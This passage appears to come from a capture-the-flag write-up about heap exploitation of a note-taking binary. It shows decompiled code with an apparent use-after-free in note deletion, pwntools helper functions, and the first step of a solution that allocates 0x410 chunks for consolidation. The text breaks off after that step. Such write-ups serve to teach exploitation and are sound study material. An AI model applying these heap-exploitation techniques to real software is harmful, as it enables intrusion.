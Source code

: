 ```c
  note_exists = check_note_exists(param_1);
  if (note_exists != 0) {
    free(*(void **)(&base_address + (ulong)param_1 * 8));
    printf("Successfully deleted note %u\n",(ulong)param_1);
  }
  return;
}
```

### Brief setup

- pwninit --> patchelf
- we are given `libc-2.31.so` so there's some protections such as double free detection
- write a few helper functions to help interface with the binary better

```python
def create_note(p,size, value):
    global next_note_index
    assert len(value) <= size
    p.sendline(b"1")
    p.sendlineafter(b"Size: ", str(size).encode())
    p.sendlineafter(b"Data: ", value)
    print(p.recvline())
    p.recvuntil(b"> ")
    result = next_note_index
    next_note_index += 1
    return result

def delete_note(p,idx):
    p.sendline(b"3")
    p.sendlineafter(b"Note id: ", str(idx).encode())
    print(p.recvline())
    p.recvuntil(b"> ")

def view_note(p,idx):
    p.sendline(b"2")
    p.sendlineafter(b"id: ", str(idx).encode())
    res = p.recvuntil(b"> ")
    end = res.find(b"1. Add")
    starting = b'Data: '
    start = res.find(starting)
    note = res[start + len(starting):end-1]
    return u64(note +b"\x00\x00")
```

### Solution

1. Create 2 chunks that will eventually be consolidated

```python
create_note(p,0x410,'') # note 1
create_note(p,0x410,'') # note 2
```
